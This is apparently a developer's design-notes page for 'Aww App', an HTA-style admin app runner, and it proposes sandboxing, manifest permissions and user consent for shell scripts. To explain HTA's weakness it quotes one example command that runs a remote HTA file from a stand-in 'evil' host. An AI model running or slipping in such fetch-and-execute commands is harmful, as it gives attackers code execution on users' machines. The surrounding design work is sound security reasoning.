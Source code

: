 ## Aww app design considerations



Aww App is a tool, similar to Microsoft HTA (HTML Application). Which allows to write simple apps in HTML and JScript and VBScript and execute them to perform some admin actions... on... local server... local company Active Directory/Domain Server. These applications not only had full access to all system configuration, but also... this was very convenient, you could run HTA from web... like mshta http://example.com/evil.hta

That mode had tiny security issues. Tiny, because there were no security there, so the technology got deprecated. 

Sad... that was a really cool idea to provide a GUI alternative for admin scripts. 

## aww app

Probably should not allow doing some harmful things for the app... 

And it should be more advanced then a regular local html file. Something in the middle between HTA Superpowers and restricted local HTML. 

What I think it should have: 

- managed and restricted file access, for instance, the application can read files only from specific folder. 
- explicit permissions, defined in appmanifest.json
- the app should not be able to harm the system: run unknown executables, overload CPU, overflow disk with garbage. 

We may allows Open file and Save file triggered by user interactions, and it should be explicit which files the app reads and writes. 

## Companion script

This could be very useful and dangerous to allow aww app running shell scripts. 

This definitely should be an explicit action and require user consent. 



## Source code 

No JavaScript minification is allowed, this should be clear source code. 







 





 

